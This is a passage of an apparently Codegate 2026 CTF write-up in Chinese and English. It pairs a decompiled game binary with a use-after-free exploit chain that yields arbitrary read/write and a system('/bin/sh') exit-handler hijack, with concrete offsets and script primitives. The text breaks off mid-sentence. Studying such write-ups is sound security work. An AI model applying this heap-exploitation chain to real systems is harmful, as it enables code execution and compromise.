 * callees: 0x22e0, 0x2310, 0x2320, 0x2360, 0x23a0, 0x23b0, 0x23e0, 0x2400, 0x2410, 0x2420, 0x2430, 0x2440, 0x2450, 0x2470, 0x24a0, 0x39c0, 0x3c30, 0x3c90, 0x3e50, 0x3ed0, 0x3f00, 0x3f20, 0x3f70, 0x3fc0, 0x4010, 0x4050, 0x41f0, 0x4220, 0x4270, 0x42e0, 0x4300, 0x4360, 0x4470, 0x45d0, 0x45e0, 0x49b0, 0x4b30, 0x4b80, 0x4bd0, 0x4ea0, 0x5760, 0x5b60, 0x6040, 0x60e0, 0x65c0, 0x6b30, 0x7010, 0x7660, 0x7a80, 0x7c90, 0x7ec0, 0x81b0, 0x82a0, 0x85b0, 0x86c0, 0x8950, 0x8c20, 0xc5d0, 0xca20, 0xcf00, 0xd700, 0xd9d0
 */

__int64 __fastcall main(int a1, char **a2, char **a3)
{
  unsigned int v3; // eax
  char v4; // al
  _QWORD *v5; // r13
  _QWORD *v6; // rbx
  __int64 v7; // rbp
  void *v8; // rdi
  void *v9; // rdi
  _QWORD *v10; // rdi
  unsigned __int64 v11; // r14
  unsigned __int64 v12; // rbp
  __int64 v13; // rbx
  char v14; // al
  void *v15; // rdi
  unsigned int v17; // r14d
  __int64 v18; // rbx
  char v19; // r12
  unsigned int v20; // ebp
  __int64 v21; // rdi
  char v22; // bl
  _QWORD *v23; // r15
  _QWORD *v24; // r13
  __int64 v25; // rbx
  void *v26; // rdi
  void *v27; // rdi
  _QWORD *v28; // rdi
  unsigned __int64 v29; // r15
  unsigned __int64 v30; // r13
  int v31; // ebx
  char v32; // al
  char v33; // al
  char v34; // cl
  char v35; // bl
  unsigned __int8 v36; // r12
  void *v37; // rdi
  unsigned __int64 v38; // rbp
  _QWORD *v39; // rbx
  __int64 v40; // rax
  __int64 v41; // r14
  __int64 v42; // r15
  char v43; // al
  char v44; // cl
  __int64 v45; // rax
  __int64 v46; // r14
  int v47; // r15d
  char v48; // al
  char v49; // cl
  __int64 v50; // rax
  __int64 v51; // r14
  __int64 v52; // r14
  __int64 i; // rdi
  bool v54; // cf
  int v55; // r14d
  char v56; // al
  __int64 v57; // r14
  unsigned __int64 v58; // rax
  _BYTE *v59; // rax
  _QWORD *v60; // rdi
  __int64 v61; // rax
  __int64 v62; // rdx
  __int64 v63; // rax
  __int64 *v64; // r14
  void *v65; // rdi
  __int64 v66; // rax
  __int64 v67; // rax
  __int64 v68; // rdx
  __int64 v69; // rax
  __int64 v70; // rdx
  __int64 v71; // rax
  __int64 v72; // rdi
  __int64 v73; // r14
  __int64 v74; // r14
  __int64 v75; // r15
  __int64 v76; // rax
  unsigned __int64 v77; // rax
  __int64 v78; // rdx
  __int64 v79; // r15
  _BYTE *v80; // rdi
  __int64 v81; // rax
  __int64 v82; // rdx
  _BYTE *v83; // r14
  __int64 v84; // r15
  __int64 v85; // rdx
  __int64 v86; // rax
  _BYTE *v87; // rbx
  _BYTE *v88; // rbx
  _BYTE *v89; // rdi
  size_t v90; // rdx
  __int64 v91; // rax
  __int64 v92; // rdx
  void *v93; // rdi
  __int64 v94; // rax
  __int64 v95; // [rsp+8h] [rbp-150h]
  unsigned __int8 v96; // [rsp+10h] [rbp-148h]
  __int64 v97; // [rsp+10h] [rbp-148h]
  __int64 v98; // [rsp+18h] [rbp-140h]
  _QWORD *v99; // [rsp+20h] [rbp-138h]
  unsigned __int64 v100; // [rsp+28h] [rbp-130h]
  __int64 v101; // [rsp+30h] [rbp-128h]
  size_t n; // [rsp+38h] [rbp-120h]
  size_t na; // [rsp+38h] [rbp-120h]
  size_t nb; // [rsp+38h] [rbp-120h]
  const void *v105; // [rsp+40h] [rbp-118h]
  void *v106; // [rsp+40h] [rbp-118h]
  void *v107; // [rsp+50h] [rbp-108h] BYREF
  _QWORD *v108; // [rsp+58h] [rbp-100h]
  __int64 v109; // [rsp+60h] [rbp-F8h]
  _BYTE v110[32]; // [rsp+70h] [rbp-E8h] BYREF
  void *src; // [rsp+90h] [rbp-C8h] BYREF
  __int64 v112; // [rsp+98h] [rbp-C0h]
  _QWORD v113[14]; // [rsp+A0h] [rbp-B8h] BYREF
  unsigned int v114; // [rsp+110h] [rbp-48h]
  unsigned __int64 v115; // [rsp+118h] [rbp-40h]

  v115 = __readfsqword(0x28u);
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  v3 = time(0);
  srand(v3);
  signal(2, handler);
  do
  {
    while ( 1 )
    {
      while ( 1 )
      {
LABEL_2:
        sub_41F0();
        sub_4300();
        sub_4360(0);
        sub_4BD0();
        v4 = getc(stdin);
        if ( v4 == 51 )
        {
          sub_41F0();
          v38 = 0;
          v39 = &unk_12340;
          sub_4300();
          sub_4360(0);
          v40 = qword_12348;
          while ( 1 )
          {
            v41 = 0x2E8BA2E8BA2E8BA3LL * ((v40 - *v39) >> 3);
            sub_5760(v39, v38);
            v42 = (unsigned int)((__int64 (*)(void))sub_4470)();
            v43 = sub_45D0();
            switch ( v42 )
            {
              case 1LL:
                if ( v38 )
                {
                  v40 = qword_12348;
                  --v38;
                  continue;
                }
                v40 = qword_12348;
                goto LABEL_93;
              case 2LL:
                v40 = qword_12348;
                if ( v41 )
                  v38 += v38 < v41 - 1;
                continue;
              case 5LL:
                v40 = qword_12348;
                if ( !v41 )
                  continue;
                v98 = *(_QWORD *)(*v39 + 88 * v38 + 32);
                v97 = sub_85B0(v39, v98);
                if ( !v97 )
                  goto LABEL_78;
                v95 = 0;
                while ( 1 )
                {
LABEL_82:
                  v46 = *(_QWORD *)(v97 + 80);
                  sub_5B60(v97, v95);
                  v47 = ((__int64 (*)(void))sub_4470)();
                  v48 = sub_45D0();
                  if ( v47 == 6 )
                    goto LABEL_78;
                  if ( v47 <= 6 )
                  {
                    if ( v47 == 1 )
                    {
                      v95 = (v95 == 0) + v95 - 1;
                    }
                    else if ( v47 == 2 && v46 )
                    {
                      v95 += v95 < (unsigned __int64)(v46 - 1);
                    }
                    continue;
                  }
                  if ( v47 == 7 )
                  {
                    v49 = v48 - 66;
                    if ( (unsigned __int8)(v48 - 66) <= 0x32u )
                    {
                      v50 = 1LL << v49;
                      if ( ((1LL << v49) & 0x100000001LL) != 0 )
                        goto LABEL_78;
                      if ( (v50 & 0x400000004LL) != 0 )
                      {
                        if ( !v46 )
                          continue;
                        v72 = *(_QWORD *)(v97 + 64);
                        v73 = v95;
                        if ( v95 <= 0 )
                        {
                          while ( ++v73 != 1 )
                            v72 = std::_Rb_tree_decrement();
                          sub_86C0(v39, v98, *(unsigned int *)(v72 + 32));
                          if ( (unsigned __int64)v95 >= *(_QWORD *)(v97 + 80) && v95 )
                          {
                            v74 = v95 - 1;
LABEL_157:
                            v95 = v74;
                            continue;
                          }
                        }
                        else
                        {
                          v74 = v95 - 1;
                          v75 = v95 - 1;
                          do
                          {
                            v76 = std::_Rb_tree_increment();
                            v54 = v75-- == 0;
                          }
                          while ( !v54 );
                          sub_86C0(v39, v98, *(unsigned int *)(v76 + 32));
                          if ( (unsigned __int64)v95 >= *(_QWORD *)(v97 + 80) )
                            goto LABEL_157;
                        }
                        continue;
                      }
                      if ( (v50 & 0x4000000040000LL) != 0 && v46 )
                        break;
                    }
                  }
                }
                v51 = v95;
                if ( v95 <= 0 )
                {
                  for ( i = *(_QWORD *)(v97 + 64); ++v51 != 1; i = std::_Rb_tree_decrement() )
                    ;
                }
                else
                {
                  v52 = v95 - 1;
                  do
                  {
                    i = std::_Rb_tree_increment();
                    v54 = v52-- == 0;
                  }
                  while ( !v54 );
                }
                v99 = (_QWORD *)i;
                v101 = i + 40;
LABEL_113:
                v100 = 0;
                while ( 1 )
                {
                  sub_60E0(v101, v100, v99[15] != 0);
LABEL_115:
                  v55 = ((__int64 (*)(void))sub_4470)();
                  v56 = sub_45D0();
                  switch ( v55 )
                  {
                    case 1:
                      if ( !v100 )
                        goto LABEL_113;
                      --v100;
                      continue;
                    case 2:
                      v61 = v99[13];
                      v62 = v99[12];
                      if ( v61 == v62 )
                        continue;
                      v100 += v100 < ((v61 - v62) >> 5) - 1;
                      sub_60E0(v101, v100, v99[15] != 0);
                      goto LABEL_115;
                    case 5:
                      if ( !v99[15] )
                        continue;
                      sub_65C0();
                      sub_7A80(&src);
                      v57 = v99[15];
                      if ( (void **)v57 == &src || !v57 )
                        goto LABEL_130;
                      n = v112;
                      if ( *(_QWORD *)v57 == v57 + 16 )
                        v58 = 15;
                      else
                        v58 = *(_QWORD *)(v57 + 16);
                      if ( v58 < v112 )
                      {
                        if ( v112 < 0 )
                          std::__throw_length_error("basic_string::_M_create");
                        v77 = 2 * v58;
                        v106 = (void *)v112;
                        if ( v112 < v77 )
                        {
                          v78 = 0x7FFFFFFFFFFFFFFFLL;
                          if ( v77 <= 0x7FFFFFFFFFFFFFFFLL )
                            v78 = v77;
                          v106 = (void *)v78;
                        }
                        if ( (__int64)v106 + 1 < 0 )
                          std::__throw_bad_alloc();
                        v79 = operator new((unsigned __int64)v106 + 1);
                        if ( v57 + 16 != *(_QWORD *)v57 )
                          operator delete(*(void **)v57, *(_QWORD *)(v57 + 16) + 1LL);
                        *(_QWORD *)v57 = v79;
                        *(_QWORD *)(v57 + 16) = v106;
                      }
                      else if ( !v112 )
                      {
                        goto LABEL_129;
                      }
                      v80 = *(_BYTE **)v57;
                      if ( n == 1 )
                        *v80 = *(_BYTE *)src;
                      else
                        memcpy(v80, src, n);
LABEL_129:
                      v59 = *(_BYTE **)v57;
                      *(_QWORD *)(v57 + 8) = n;
                      v59[n] = 0;
LABEL_130:
                      v60 = src;
                      v99[15] = 0;
                      if ( v60 != v113 )
LABEL_131:
                        operator delete(v60, v113[0] + 1LL);
                      break;
                    case 6:
                      v99[15] = 0;
                      goto LABEL_82;
                    case 7:
                      switch ( v56 )
                      {
                        case 'B':
                        case 'b':
                          goto LABEL_82;
                        case 'D':
                        case 'd':
                          v69 = v99[13];
                          v70 = v99[12];
                          if ( v69 == v70 )
                            continue;
                          if ( v100 >= (v69 - v70) >> 5 )
                            goto LABEL_149;
                          v82 = 32 * v100 + v70;
                          if ( v69 == v82 + 32 )
                            goto LABEL_202;
                          nb = (size_t)v39;
                          v83 = (_BYTE *)(v82 + 48);
                          v84 = (v69 - (v82 + 32)) >> 5;
                          while ( 2 )
                          {
                            if ( v84 > 0 )
                            {
                              v88 = (_BYTE *)*((_QWORD *)v83 - 2);
                              v89 = (_BYTE *)*((_QWORD *)v83 - 6);
                              v90 = *((_QWORD *)v83 - 1);
                              if ( v83 == v88 )
                              {
                                if ( v90 )
                                {
                                  if ( v90 == 1 )
                                    *v89 = *v83;
                                  else
                                    memcpy(v89, v83, v90);
                                }
                                v91 = *((_QWORD *)v88 - 1);
                                v92 = *((_QWORD *)v88 - 6);
                                *((_QWORD *)v88 - 5) = v91;
                                *(_BYTE *)(v92 + v91) = 0;
                                v87 = (_BYTE *)*((_QWORD *)v83 - 2);
                                goto LABEL_194;
                              }
                              if ( v89 == v83 - 32 )
                              {
                                v94 = *(_QWORD *)v83;
                                *((_QWORD *)v83 - 6) = v88;
                                *((_QWORD *)v83 - 5) = v90;
                                *((_QWORD *)v83 - 4) = v94;
                              }
                              else
                              {
                                *((_QWORD *)v83 - 5) = v90;
                                v85 = *(_QWORD *)v83;
                                v86 = *((_QWORD *)v83 - 4);
                                *((_QWORD *)v83 - 6) = v88;
                                *((_QWORD *)v83 - 4) = v85;
                                if ( v89 )
                                {
                                  *((_QWORD *)v83 - 2) = v89;
                                  v87 = v89;
                                  *(_QWORD *)v83 = v86;
LABEL_194:
                                  --v84;
                                  v83 += 32;
                                  *((_QWORD *)v83 - 5) = 0;
                                  *v87 = 0;
                                  continue;
                                }
                              }
                              *((_QWORD *)v83 - 2) = v83;
                              v87 = v83;
                              goto LABEL_194;
                            }
                            break;
                          }
                          v39 = (_QWORD *)nb;
                          v69 = v99[13];
LABEL_202:
                          v93 = *(void **)(v69 - 32);
                          v99[13] = v69 - 32;
                          if ( v93 == (void *)(v69 - 16) )
                          {
                            v69 -= 32;
                          }
                          else
                          {
                            operator delete(v93, *(_QWORD *)(v69 - 16) + 1LL);
                            v69 = v99[13];
                          }
LABEL_149:
                          v71 = v69 - v99[12];
                          v99[15] = 0;
                          if ( v100 >= v71 >> 5 )
                          {
                            if ( !v100 )
                              goto LABEL_113;
                            --v100;
                          }
                          continue;
                        case 'E':
                        case 'e':
                          v67 = v99[13];
                          v68 = v99[12];
                          if ( v67 != v68 && v100 < (v67 - v68) >> 5 )
                            v99[15] = 32 * v100 + v68;
                          continue;
                        case 'N':
                        case 'n':
                          sub_65C0();
                          sub_7A80(&src);
                          v63 = v112;
                          na = v112;
                          if ( !v112 )
                            goto LABEL_142;
                          v64 = (__int64 *)v99[13];
                          if ( v64 != (__int64 *)v99[14] )
                          {
                            v65 = v64 + 2;
                            *v64 = (__int64)(v64 + 2);
                            v105 = src;
                            if ( (unsigned __int64)v63 > 0xF )
                            {
                              if ( v63 < 0 )
                                std::__throw_length_error("basic_string::_M_create");
                              if ( (__int64)(na + 1) < 0 )
                                std::__throw_bad_alloc();
                              v81 = operator new(na + 1);
                              *v64 = v81;
                              v65 = (void *)v81;
                              v64[2] = na;
                            }
                            else if ( na == 1 )
                            {
                              *((_BYTE *)v64 + 16) = *(_BYTE *)src;
LABEL_141:
                              v66 = *v64;
                              v64[1] = na;
                              *(_BYTE *)(v66 + na) = 0;
                              v99[13] += 32LL;
                              goto LABEL_142;
                            }
                            memcpy(v65, v105, na);
                            goto LABEL_141;
                          }
                          sub_D9D0(v99 + 12, v99[13], &src);
LABEL_142:
                          v60 = src;
                          if ( src == v113 )
                            continue;
                          goto LABEL_131;
                        default:
                          continue;
                      }
                    default:
                      continue;
                  }
                }
              case 6LL:
                goto LABEL_2;
              case 7LL:
                v44 = v43 - 66;
                if ( (unsigned __int8)(v43 - 66) > 0x2Cu )
                  goto LABEL_78;
                v45 = 1LL << v44;
                if ( ((1LL << v44) & 0x400000004LL) != 0 )
                {
                  v40 = qword_12348;
                  if ( v41 )
                  {
                    if ( !(unsigned __int8)sub_82A0(v39, *(_QWORD *)(*v39 + 88 * v38 + 32)) )
                      goto LABEL_78;
                    v40 = qword_12348;
                    if ( v38 >= 0x2E8BA2E8BA2E8BA3LL * ((qword_12348 - *v39) >> 3) )
                    {
                      if ( v38 )
                        --v38;
                      else
LABEL_93:
                        v38 = 0;
                    }
                  }
                }
                else if ( (v45 & 0x100000001000LL) != 0 )
                {
                  sub_6040();
                  sub_7EC0(&src);
                  sub_8C20(v39, &src);
                  if ( src == v113 )
                    goto LABEL_78;
                  operator delete(src, v113[0] + 1LL);
                  v40 = qword_12348;
                }
                else
                {
                  if ( (v45 & 0x100000001LL) != 0 )
                    goto LABEL_2;
LABEL_78:
                  v40 = qword_12348;
                }
                break;
              default:
                goto LABEL_78;
            }
          }
        }
        if ( v4 <= 51 )
          break;
        if ( (v4 & 0xDF) == 0x51 )
          goto LABEL_28;
      }
      if ( v4 == 49 )
        break;
      if ( v4 == 50 )
      {
        sub_41F0();
        sub_4300();
        sub_4360(0);
        if ( qword_12028 == qword_12020 )
        {
          sub_4270(10, 12);
          sub_4220(3);
          std::__ostream_insert<char,std::char_traits<char>>();
          sub_42E0(std::cout, "No scores yet!");
          sub_4270(12, 10);
          std::__ostream_insert<char,std::char_traits<char>>();
          std::ostream::flush((std::ostream *)std::cout);
          sub_4470(std::cout, "Press any key to return...");
        }
        else
        {
          sub_CA20(&v107, &qword_12020);
          v5 = v108;
          v6 = v107;
          v7 = (char *)v108 - (_BYTE *)v107;
          if ( v108 != v107 )
          {
            do
            {
              v8 = (void *)v6[12];
              if ( v8 )
                operator delete(v8, v6[14] - (_QWORD)v8);
              v9 = (void *)v6[9];
              if ( v9 )
                operator delete(v9, v6[11] - (_QWORD)v9);
              v10 = (_QWORD *)v6[3];
              if ( v10 != v6 + 5 )
                operator delete(v10, v6[5] + 1LL);
              v6 += 15;
            }
            while ( v5 != v6 );
          }
          if ( v107 )
            operator delete(v107, v109 - (_QWORD)v107);
          v11 = 10;
          if ( (unsigned __int64)v7 <= 0x4B0 )
            v11 = 0xEEEEEEEEEEEEEEEFLL * (v7 >> 3);
          v12 = 0;
          while ( 2 )
          {
            sub_6B30(&qword_12020, v12);
            v13 = (unsigned int)sub_4470(&qword_12020, v12);
            v14 = sub_45D0();
            switch ( v13 )
            {
              case 1LL:
                v12 = (v12 == 0) + v12 - 1;
                continue;
              case 2LL:
                v12 += v12 < v11 - 1;
                continue;
              case 5LL:
                v15 = (void *)sub_CF00(&qword_12020, v12);
                if ( v15 )
                  sub_D700(v15);
                continue;
              case 6LL:
                goto LABEL_2;
              case 7LL:
                if ( (v14 & 0xDF) != 0x51 )
                  continue;
                break;
              default:
                continue;
            }
            break;
          }
        }
      }
    }
    sub_4EA0();
    sub_7C90(v110);
    sub_41F0();
    sub_4300();
    sub_4360(0);
    sub_3C90(&src);
    sub_7660(v114, 0);
    sub_45E0(&src);
    sub_49B0();
    v96 = 0;
    v17 = 0;
    while ( 2 )
    {
      v18 = (unsigned int)((__int64 (*)(void))sub_4470)();
      v19 = sub_45D0();
      sub_4010(&src);
      v20 = v114;
      v21 = v114;
      switch ( v18 )
      {
        case 1LL:
LABEL_59:
          v33 = sub_3F00(&src);
          goto LABEL_53;
        case 2LL:
LABEL_58:
          v33 = sub_3F20(&src);
          goto LABEL_53;
        case 3LL:
LABEL_55:
          if ( (unsigned __int8)sub_3F70(&src) )
            goto LABEL_56;
          goto LABEL_54;
        case 4LL:
LABEL_52:
          v33 = sub_3FC0(&src);
LABEL_53:
          if ( v33 )
          {
LABEL_56:
            sub_39C0(&src);
            v22 = sub_3E50(&src);
            if ( v22 )
            {
              v36 = sub_3ED0(&src);
              v17 = v20;
              v21 = v114;
              if ( v36 )
              {
                sub_7660(v114, v20);
                sub_45E0(&src);
                sub_49B0();
                sub_4B30();
                v96 = v36;
                v21 = v114;
                v22 = 0;
              }
            }
            else
            {
              sub_7660(v114, v20);
              sub_45E0(&src);
              sub_49B0();
              sub_4B80();
              v21 = v114;
              v17 = v20;
            }
          }
          else
          {
LABEL_54:
            v21 = v114;
            v22 = 1;
          }
          goto LABEL_32;
        case 7LL:
          switch ( v19 )
          {
            case 'A':
            case 'a':
              goto LABEL_55;
            case 'B':
            case 'b':
              sub_4050(&src);
              goto LABEL_54;
            case 'D':
            case 'd':
              goto LABEL_52;
            case 'Q':
            case 'q':
              goto LABEL_34;
            case 'R':
            case 'r':
              sub_3C30(&src);
              v21 = v114;
              v17 = 0;
              v22 = 1;
              goto LABEL_32;
            case 'S':
            case 's':
              goto LABEL_58;
            case 'W':
            case 'w':
              goto LABEL_59;
            default:
              goto LABEL_31;
          }
          goto LABEL_34;
        default:
LABEL_31:
          v22 = 1;
LABEL_32:
          sub_7660(v21, v17);
          sub_45E0(&src);
          sub_49B0();
          if ( v22 )
            continue;
          v20 = v114;
LABEL_34:
          sub_C5D0(&qword_12020, v110, v20, v96);
          sub_8950(&unk_12340, v110, v20, v96);
          sub_CA20(&v107, &qword_12020);
          v23 = v108;
          v24 = v107;
          v25 = (char *)v108 - (_BYTE *)v107;
          if ( v108 != v107 )
          {
            do
            {
              v26 = (void *)v24[12];
              if ( v26 )
                operator delete(v26, v24[14] - (_QWORD)v26);
              v27 = (void *)v24[9];
              if ( v27 )
                operator delete(v27, v24[11] - (_QWORD)v27);
              v28 = (_QWORD *)v24[3];
              if ( v28 != v24 + 5 )
                operator delete(v28, v24[5] + 1LL);
              v24 += 15;
            }
            while ( v23 != v24 );
          }
          if ( v107 )
            operator delete(v107, v109 - (_QWORD)v107);
          v29 = 10;
          if ( (unsigned __int64)v25 <= 0x4B0 )
            v29 = 0xEEEEEEEEEEEEEEEFLL * (v25 >> 3);
          v30 = 0;
          break;
      }
      break;
    }
    do
    {
      while ( 1 )
      {
        while ( 1 )
        {
          while ( 1 )
          {
            sub_7010(&qword_12020, v30, v110, v20, v96);
            v31 = ((__int64 (*)(void))sub_4470)();
            v32 = sub_45D0();
            if ( v31 != 5 )
              break;
            v37 = (void *)sub_CF00(&qword_12020, v30);
            if ( v37 )
              sub_D700(v37);
          }
          if ( v31 > 5 )
            break;
          if ( v31 == 1 )
          {
            v30 = (v30 == 0) + v30 - 1;
          }
          else if ( v31 == 2 )
          {
            v30 += v30 < v29 - 1;
          }
        }
        if ( v31 == 7 )
        {
          v34 = v32 - 77;
          if ( (unsigned __int8)(v32 - 77) <= 0x25u )
            break;
        }
      }
      if ( ((1LL << v34) & 0x2100000021LL) != 0 )
      {
        v35 = 1;
        goto LABEL_65;
      }
    }
    while ( ((1LL << v34) & 0x1000000010LL) == 0 );
    v35 = 0;
LABEL_65:
    std::string::_M_dispose(v110);
  }
  while ( v35 );
LABEL_28:
  sub_4360(1);
  sub_41F0();
  return 0;
}
```

问题行为可以概括为：

Problematic behaviors can be summarized as:

1. 进入某条记录的 tag 编辑器。

   Enter the tag editor for a specific record. 

2. 先创建 4 个 tag。

   First, create 4 tags. 

3. 选中第 4 个 tag。

   Select the 4th tag.

4. 按 `e` 进入编辑态。

   Press `e` to enter edit mode.

5. 再按 `n` 新增第 5 个 tag，触发 `std::vector` 扩容。

   Press `n` again to add the 5th tag, triggering `std::vector` to resize.

6. 此时旧元素地址已经失效，但“当前选中的 tag”仍然指向扩容前的旧槽位。

   At this point, the address of the old element has become invalid, but the "currently selected tag" still points to the old slot before the expansion.

7. 之后再按 `Enter` 编辑，实际写入的是悬空指针指向的旧内存。

   Then press ` Enter ` to edit, and what is actually written is the old memory pointed to by the dangling pointer. 

这就是整个利用链的起点。

This is the starting point of the entire utilization chain. 

#### **利用思路总览** | **Overview of Utilization Approaches**

完整利用可以拆成 4 步：

Full utilization can be broken down into 4 steps:

1. 用 `A/B` 两条记录把 UAF 稳定转换成对相邻 tag-vector 状态的篡改。

   Use` A/B ` two records to stably convert UAF into tampering with the state of adjacent tag-vectors.

2. 再用 `E/F` 成对记录把这个能力升级成伪造 `std::string` 元数据。

   Then use `E/F` paired records to upgrade this capability to forging `std::string` metadata.

3. 通过伪造的 `std::string` 获得任意地址读写。

   Obtain arbitrary address read and write through forged ` std::string `. 

4. 读出 glibc exit handler、恢复 pointer guard，改写 exit entry 为 `system("/bin/sh")`，然后正常 `exit`。

   Read out the glibc exit handler, restore the pointer guard, rewrite the exit entry to `system("/bin/sh")`, and then normally `exit`.

#### **第一阶段：A/B 记录拿到初始泄露** | **Phase 1: A/B records obtain initial leakage**

**1. 构造 A**

**Construct A**

先创建记录 `A`，在其 tag 编辑器里：

First create record `A`, in its tag editor:

- 新增 `t1` ~ `t4`

  Newly added `t1` ~ `t4`

- 选中第 4 个 tag

  Select the 4th tag

- 进入编辑态

  Enter Edit Mode 

- 再新增 `t5`

  Add another `t5`

这样就得到了一个悬空的“已选中 tag 指针”。

This way, we obtain a dangling "selected tag pointer". 

**2. 构造 B**

**Construct B**

再创建记录 `B`，其第 1 个 tag 设为：

Create another record `B`, with its first tag set to:

```bash
cat /home/user2048/flag
```

后面再补足一些普通 tag，让布局稳定。

Then add some ordinary tags to stabilize the layout. 

**3. 回到 A 触发空编辑**

**Return to A to trigger empty editing**

重新进入 `A` 的 tag 编辑器，对那个悬空指针做一次空编辑。这样写到的已经不是 `A` 自己当前有效的 tag，而是扩容前旧槽位附近的新对象。

Re-enter the tag editor of `A`, and perform a null edit on that dangling pointer. What is written in this way is no longer the currently valid tag of `A` itself, but a new object near the old slot before the expansion. 

这个阶段的结果是：`B` 的 tag 结构被部分篡改，打开 `B` 的 tag 界面时，第一行会开始泄露额外的堆内容。

The result of this stage is: ` The tag structure of B ` has been partially tampered with, and when opening the tag interface of ` B `, the first line will start to leak additional heap content. 

脚本里的实现对应：

Implementation in the script corresponds to:

- `setup_ab()`
- `extract_cmd_ptr()`

**4.`cmd_ptr` 泄露**

**`cmd_ptr` Leak**

本地和远端这里略有区别：

There are slight differences between local and remote here:

- 本地时，`cmd_ptr` 常常直接出现在 row1 的前 8 字节。

  Local time,`cmd_ptr` often directly appears in the first 8 ByteDance of row1.

- 远端时，row1 前半段会混入固定小整数和空格，真正有用的是 `leak[16:23]` 这 7 个字节。

  When it is far away, the first half of row1 will be mixed with fixed small integers and spaces, and what is truly useful is `leak[16:23]`, these 7 ByteDance.

脚本里用下面的逻辑统一处理：

The following logic is used for unified processing in the script: 

```Python
q0 = u64(leak[:8])
q2 = u64(leak[16:23] + b"\x00")
```

只要满足“看起来像 heap 指针”的特征，就认为它是命令缓冲区地址。

As long as it meets the characteristic of "looking like a heap pointer", it is considered a command buffer address. 

#### **第二阶段：E/F 记录拿到任意地址读写** | **Phase 2: E/F Record Obtains Read/Write Access to Any Address**

**1. 构造 E/F pair**

**Construct E/F pair**

`E` 的做法和前面的 `A` 一样，用来制造悬空 selected-tag 指针。

`E` does the same as `A` before, used to create a dangling selected-tag pointer.

`F` 则准备一个普通字符串 tag，例如第 1 个 tag 为 `zzzz`，再补齐剩余 tag。

`F` prepares a normal string tag, for example, the first tag is `zzzz`, and then completes the remaining tags.

**2. 伪造`F[0]` 的 string 元数据**

**Forge the string metadata of `F[0]`**

通过 `E` 的悬空编辑，把 `F[0]` 对应字符串对象的三个字段改成：

Through ` E ` 's dangling edit, change the three fields of the string object corresponding to ` F[0] ` to: 

```Python
p64(target) + p64(size) + p64(cap)
```

也就是：

That is: 

- `ptr = target`
- `size = size`
- `cap = 0x20`

脚本里的入口是：

The entry point in the script is: 

- `make_pair()`
- `arm_pair()`
- `arb_read()`
- `arb_write()`

**3. 为什么这能变成任意读写**

**Why can this become arbitrary read and write?**

因为后续如果打开 `F` 的 tag 列表，程序会把 `F[0]` 当作普通字符串显示，于是它会去读取 `ptr` 指向的地址内容，这就是任意读。

Because if the tag list of `F` is opened later, the program will treat `F[0]` as a normal string and display it, so it will read the content at the address pointed to by `ptr`, which is arbitrary read.

而如果再对该 tag 执行编辑，新的输入内容会被写回 `ptr` 指向的位置，这就是任意写。

If an edit is then performed on this tag, the new input content will be written back to the location pointed to by `ptr`, which is arbitrary write. 

当前脚本把这套 primitive 封装成：

The current script encapsulates this set of primitives into: 

```Python
arb_read(session, pair_no, target, size)
arb_write(session, pair_no, target, payload)
```

**本地利用** | **Local utilization**

本地版本的链条相对直接。

The local version of the chain is relatively straightforward. 

**1. libc 基址**

**libc base address**

通过 `cmd_ptr + 0x330` 可读到一个稳定的 libc 指针：

A stable libc pointer can be read via `cmd_ptr + 0x330`: 

- `LOCAL_LIBC_PTR_OFF_FROM_CMD = 0x330`
- `LOCAL_LIBC_PTR_TO_BASE = 0x209b00`

所以：

Therefore:

```Python
libc_base = libc_ptr - 0x209b00
```

**2. exit handler**

本地 exit handler 头部偏移为：

Local exit handler header offset is:

```Python
LOCAL_EXIT_HEAD_OFF = 0x20afe0
```

读取第 5 个 exit entry：

Read the 5th exit entry:

```Python
head + 0x10 + 5 * 0x20 + 8
```

可以得到：

It can be obtained that: 

- 编码后的函数指针 `enc5`

  Encoded function pointer`enc5`

- 参数指针 `arg5`

  Parameter Pointer`arg5`

- DSO 指针 `dso5`

  DSO Pointer`dso5`

**3. 恢复 pointer guard**

**3. Restore pointer guard**

glibc 在 exit handler 中对函数指针做了 pointer mangling，脚本里恢复方式为：

glibc performs pointer mangling on function pointers in the exit handler, and the restoration method in the script is:

```Python
guard = ror64(enc5, 17) ^ (pie_base + 0xD7F0)
```

对应编码公式为：

The corresponding encoding formula is: 

```Python
encoded = rol64(real_fn ^ guard, 17)
```

**4. 改写为`system("/bin/sh")`**

**Rewrite it as `system("/bin/sh")`**

本地使用的偏移为：

The offset used locally is: 

- `system = libc_base + 0x53b00`
- `"/bin/sh" = libc_base + 0x1b0ebc`

最后把第 6 个 exit entry 改写为：

Finally, rewrite the 6th exit entry as:

```Python
p64(enc_system) + p64(binsh) + p64(dso5)
```

这里必须保留原始的 `dso5`，否则在退出路径上会因为结构不完整导致崩溃。

The original ` dso5 ` must be retained here, otherwise a crash will occur on the exit path due to incomplete structure. 

本地利用模式：

Local utilization mode:

```Bash
python3 solve_poc.py --mode exploit-local
```

本地假 flag：

Local fake flag:

```Plain
codegate2026{fake_flag}
```

#### **远端适配** | **Remote Adaptation**

远端不能直接照搬本地偏移，主要有两个差异：

The remote end cannot simply copy the local offset directly, mainly due to two differences: 

1. `cmd_ptr + 0x330` 不再能直接给出正确的 libc 基址。

   `cmd_ptr + 0x330` can no longer directly provide the correct libc base address.

2. 远端第一阶段的 row1 泄露布局与本地不同。

   The layout of row1 in the first stage of the remote end has a different leakage pattern compared to the local end. 

**1. 额外布置一个大 name 记录**

**Add an additional large name record**

远端脚本会额外创建一条名字很长的记录：

The remote script will additionally create a record with a very long name: 

```Python
REMOTE_BIG_NAME = b"C" * 0x500
```

然后把它删掉，借此改变堆布局。之后再去读：

Then delete it to change the heap layout. Then read it again: 

```Python
cmd_ptr - 0x800
```

在返回的 `0x400` 字节中，偏移 `0x1d8` 处稳定出现一个 libc 数据段指针。

Among the returned `0x400` bytes, a libc data segment pointer stably appears at offset `0x1d8`. 

脚本中对应：

Corresponds to in the script:

```Python
REMOTE_LIBC_PTR_OFF = 0x1d8
REMOTE_LIBC_ANCHOR_OFF = 0x202030
libc_base = anchor - 0x202030
```

**2. 定位 exit 区**

**Locate the exit area**

对远端 `libc_base + 0x202000` 一段区域做扫描后，可以看到两组高度相似的 entry，内部反复出现：

After scanning a region of the remote ` libc_base + 0x202000 `, two sets of highly similar entries can be seen, with the following repeatedly appearing inside: 

- `pie + 0x12008`
- `pie + 0x12020`
- `pie + 0x12340`

最终确认远端 exit handler 头部偏移为

Finally confirm that the header offset of the remote exit handler is

